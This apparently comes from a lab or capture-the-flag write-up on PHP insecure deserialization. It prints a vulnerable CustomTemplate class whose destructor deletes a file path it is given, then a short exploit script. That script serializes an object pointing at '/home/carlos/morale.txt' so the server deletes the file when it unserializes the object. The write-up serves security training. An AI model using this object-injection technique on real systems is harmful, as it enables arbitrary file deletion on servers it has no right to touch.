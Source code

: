 ```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }
    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }
    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }
    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
?>
```

- In the above code, we can see that it contains a **__destruct()** method which will be triggered at the end of execution on this PHP file. The **__destruct()** method will check whether the file exists on the system and using the **unlink()** method it will delete the file if it exist. The **unlink()** method on the PHP is used to delete the file.
- Let's create an exploit for this

```php
<?php

class CustomTemplate
{
    public function __construct()
    {
        $this->lock_file_path = '/home/carlos/morale.txt';
    }
}
$obj = new CustomTemplate();
echo serialize($obj);
?>
```
- Here the code contains a **CustomTemplate** class which has **__construct()** method and it will be executed every time the class CustomTemplate is instantiated. The construct method is used to initalize the property to the string parameter called **lock_file_path** and prints its serialized object.
- So in the server side, when the object is unserialized, the **__destruct()** method will be triggered and check for the existence of file passed on **lock_file_path** parameter and if it exist, it will delete the file.
- Run the code to create a serialized object.